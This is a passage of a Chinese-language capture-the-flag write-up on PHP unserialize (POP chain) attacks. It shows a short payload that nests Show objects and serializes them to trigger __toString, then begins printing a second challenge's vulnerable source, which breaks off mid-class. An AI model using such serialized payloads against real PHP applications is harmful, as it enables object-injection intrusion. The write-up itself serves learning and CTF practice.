 解决方法：

~~~
$b = new Show();
$b->str = new Test();
echo urlencode(serialize(new Show($b)));
~~~

既然需要`$source`为一个类，且不能是别的类或类实例，必须是当前类的实例，这样才能触发当前类中的魔术方法。

所以也就是$this->source应该等于new Show()，但是这样写会导致代码一直循环，走不出去。

所以这里在类外定义参数，形式大约是new show（new show（）），这样将一个类实例传递给代码中，用于触发`__tostring()`，而且因为这个类是当前的类，触发的魔术方法也是当前类中的。但这样写也会报错，所以写成上述的样子。

至于`$b->str = new Test()`为啥写在类外面，而不是写在`__construct()`中，这是因为new show（new show（））这种形式会触发两次`__construct()`,如果写在类中，`$b->str = new Test()`也会执行两次，不过执行两次也没关系，生成的payload都是可用的。



2.目标源码：

~~~
<?php
error_reporting(0);

class A {
    protected $store;
    protected $key;
    protected $expire;
    public function __construct($store, $key = 'flysystem', $expire = null) {
        $this->key = $key;
        $this->store = $store;
        $this->expire = $expire;
    }
    public function cleanContents(array $contents) {
        $cachedProperties = array_flip([
            'path', 'dirname', 'basename', 'extension', 'filename',
            'size', 'mimetype', 'visibility', 'timestamp', 'type',
        ]);
        foreach ($contents as $path => $object) {
            if (is_array($object)) {
                $contents[$path] = array_intersect_key($object, $cachedProperties);
            }
        }
        return $contents;
    }
    public function getForStorage() {
        $cleaned = $this->cleanContents($this->cache);
        return json_encode([$cleaned, $this->complete]);
    }
    public function save() {
        $contents = $this->getForStorage();
        $this->store->set($this->key, $contents, $this->expire);
    }

    public function __destruct() {
        if (!$this->autosave) {
            $this->save();
        }
    }
}

class B {

    protected function getExpireTime($expire): int {
        return (int) $expire;
    }
~~~